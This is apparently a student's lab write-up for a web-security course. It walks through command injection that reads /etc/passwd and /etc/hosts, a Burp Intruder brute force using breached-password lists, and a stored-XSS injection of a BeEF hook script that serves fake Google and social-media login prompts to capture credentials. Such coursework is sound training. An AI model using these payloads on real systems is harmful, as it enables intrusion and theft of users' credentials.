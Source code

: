 # Unit 15 Homework - Web Vulnerabilities and Hardening.

### Web Application 1: *Your Wish is My Command Injection*
-----------------------------------------------------------
If your Vagrant file is active then `Open Oracle VM VirtualBox Manager` and start your Virtual Machine.  

Start the `Terminal` in your Virtual Machine.
  > Run the following command from your `Terminal`.  
  > `cd ./Documents/web-vulns && docker-compose up`  
  > Once the `Docker Containers` are up, Open `Firefox Web Browser`  
  > Navigate to the following webpage: <http://192.168.13.25>   
  > Log in with the following credentials:  
  >   - User name: `admin`  
  >   - Password: `password`  
  > Select the **Command Injection** option or access the webpage directly at this page: <http://192.168.13.25/vulnerabilities/exec/>  

  - Enter 8.8.8.8 in 'Ping a device' section:  
    > ![ping 8.8.8.8](Picture_8888.PNG) 

  - As per the ping `8.8.8.8 && pwd` there are five levels of sub-directories, see below: 
    > ![ping 8.8.8.8 && pwd](Picture_8888&&.PNG)  

  - Based on above, using the dot-dot-slash method `../` need to do it 5 times to access the payloads, that will display the contents of the following directories/files.  
   
    - `/etc/passwd`  
      - From Command line in `Terminal`
        ![ping from command line](hosts_terminal.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/passwd`
      ![etc/passwd](Picture_passwd_web.PNG)  
      
    - `/etc/hosts`  
      - From Command line in `Terminal`
        ![ping from command line](hosts_terminal.PNG)  

      - From the Web-Browser  
      `8.8.8.8 && cat ../../../../../etc/hosts`
      ![etc/host](hosts_web.PNG)  
   

### Web Application 2: *A Brute Force to Be Reckoned With*
----------------------------------------------------------
- From the `Terminal` in Vagrant run the command `sudo burpsuite` to start the `Burp Suite Community Edition`
- Open Firefox browser on Vagrant and navigate to the webpage <http://192.168.13.35/ba_insecure_login_1.php>
- Make sure the `FoxyProxy` setting on the web browser is set to `Burp`.  
  ![FoxyProxy setting](/Images/foxyproxy-setting.PNG) 

- This page is an administrative web application that serves as a simple login page. An administrator enters their username and password and selects Login.
  - Enter the User name: `test-user`  
  - Enter the Password: `password`  
  ![Login attempt with Burp activated](/Images/bwapp-test-user.PNG)  
- Following was displayed in the `Burp Suite` in **`Proxy`** tab under the _`Intercept`_ - Highlighting the Login and password credentials.  
  `Request to http://192.168.13.35:80`  
  ```
  POST /ba_insecure_login_1.php HTTP/1.1
  Host: 192.168.13.35
  User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
  Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
  Accept-Language: en-US,en;q=0.5
  Accept-Encoding: gzip, deflate
  Content-Type: application/x-www-form-urlencoded
  Content-Length: 48
  Connection: close
  Referer: http://192.168.13.35/ba_insecure_login_1.php
  Cookie: PHPSESSID=6qk327baioj8ioe6p70ff6bvt1; security_level=0
  Upgrade-Insecure-Requests: 1
  
  login=test-user&password=test-passwd&form=submit
  ```
  ![Burp Suite - Intercept](/Images/Burp-Suite-intercept-test-user.PNG)  

- From the web application tool **Burp Suite**, on the `Intercept` tab Right click anywhere to send the information to `Intruder`  
  - Select the `Intruder` tab, and verify the `Target` tab:  
  ![Intruder-Target](/Images/sent-to-intruder-target.PNG)  
  
  - Select the `Position` tab and change the `Attack type:` to **`Cluster bomb`**, also clear all payload positions, except for the login and password credentials.  
    ![Cluster bomb](/Images/intruder-target-cluster-bomb.PNG)  

  - You've been provided with a list of administrators and the breached passwords:

     - [List of Administrators](listofadmins.txt)
     - [Breached list of Passwords](breached_passwords.txt)
  
  - Select the `Payloads` tab, and enter the `List of Administrators` file provided above into the Payload Options [Simple list] for the set 1.  
    ![List of Administrators](/Images/payload-set-1-list-of-admins.PNG)  
  - Add the passwords from the `Breached list of Passwords` file provided above into the Payload Options [Simple list] for the set 2.  
    ![Breached list of Passwords](/Images/payload-set-2-breached_passwords.PNG)  
  - Click the `Start attack` button to get the results.  

- Results from the analysis that was completed from the `Intruder` show that there was one successful login username/password combination. It was user name of "**`tonystark`**" and the password "**`I am Iron Man`**". Below snapshot displays the `Successful login! You really are Iron Man :)` in the `Response` tab.  
  ![Tonystark - Successful](/Images/intruder-results-tonystark-sucessful.PNG)  

### Web Application 3: *Where's the BeEF?*
------------------------------------------
#### 1. Set up BeEF  
  1. From the `Terminal` in Vagrant run the command `sudo beef` to start the **BeEF**  
  2. When prompted for a password, enter `cybersecurity`.
  3. This will kick off the BeEF application and return many details about the application to your terminal.
  4. To access the BeEF GUI, right-click the first URL `UI_URL: http://127.0.0.1:3000/ui/panel` and select Open Link to open in default browser, or copy the link and open the browser of your choice `(Chrome, or Microsoft Edge)`. Paste it in the address bar and press enter.
  5. When the BeEF webpage opens, login with the following credentials:
    - Username: `beef`
    - Password: `feeb`

#### 2. Prepare the Replicants Website  
  1. From the `Terminal` in Vagrant navigate to `~/Documents/web-vulns` directory.
  2. Run the command `sudo docker-compose up`
  3. Go to the browser and enter the following in the address bar: `http://192.168.13.25/vulnerabilities/xss_s/`
  4. Reset the database and the login with the following credentials:
    - Username: `admin`
    - Password: `password`

#### 3. Start the BeEF hook, and write the payload
  1. From the `Terminal` copy the `BeEF hook: http://127.0.0.1:3000/hook.js`
  2. Write the `Payload: <script src="http://127.0.0.1:3000/hook.js"></script>`

#### 4. Inject this payload  
  - Inject in the message box field with <script src="http://127.0.0.1:3000/hook.js"></script>, it can't display more than 50 characters because there was a limit of `maxlength="50"` character in the source code.
  ![maxlength=50](/text_change_90.PNG)
  
  - Solution: From the Browser press `Ctrl+Shift+I` for Developer Tools. Under the `Element` in Chrome or `Inspector` in Firefox locate the `<div class="body_padded">` and in sub categories, locate the `<textarea name="mtxMessage" cols="50" rows="3" maxlength="50">`. Change the maxlength to any number greater than 50, for example `maxlength="75"`, or just remove this code limit.
  ![maxlength=75](/after_change_to_90.PNG)  
  

#### 5. A few BeEF exploits.
  - First to attempt a social engineering phishing exploit to create a fake Google login pop up, we can use this to capture user credentials.
  - Select `Google Phishing` under `Social Engineering` to access this exploit.
       ![wd_hw16](Google_phishing.png)
  - After selecting this option, the description of the exploit and any dependencies or options are displayed in the panel on the right.
       ![wd_hw17](Google_phising_des.png)
  - To launch the exploit, select Execute in the bottom right corner.
  - After selecting Execute, return back to your browser that was displaying the Butcher Shop website. Note that it has been changed to a Google login page.
  - A victim could easily mistake this for a real login prompt.
  - Lets see what would happen if a victim entered in their credentials. Use the following credentials to login in to the fake Google page. 
    - Username: `hackeruser`  
    - Password: `hackerpass`  
      ![wd_hw18](Email_phising.png)  
  - Return to the BeEF control panel. In the center panel, select the first option. Note that now on the right panel, the username and password have been captured by the attacker.  
      ![wd_hw19](hacker_email.png)  

   - Task details:
     - The page you will test is the Replicants Stored XSS application which was used the first day of this unit: `http://192.168.13.25/vulnerabilities/xss_s/`
     - The BeEF hook, which was returned after running the `sudo beef` command was: `http://127.0.0.1:3000/hook.js`
     - The payload to inject with this BeEF hook is: `<script src="http://127.0.0.1:3000/hook.js"></script>`

  - Social Engineering >> Pretty Theft
    ![Pretty Theft Facebook](pretty_theft.PNG)  
    ![Pretty Theft Facebook](facebook_timeout.PNG)  
    ![Pretty Theft LinkedIn](youtube_timeout.PNG)  
   

  - Social Engineering >> Fake Notification Bar
    ![Social Engineering >> Fake Notification Bar](fake_notification.PNG)  
    
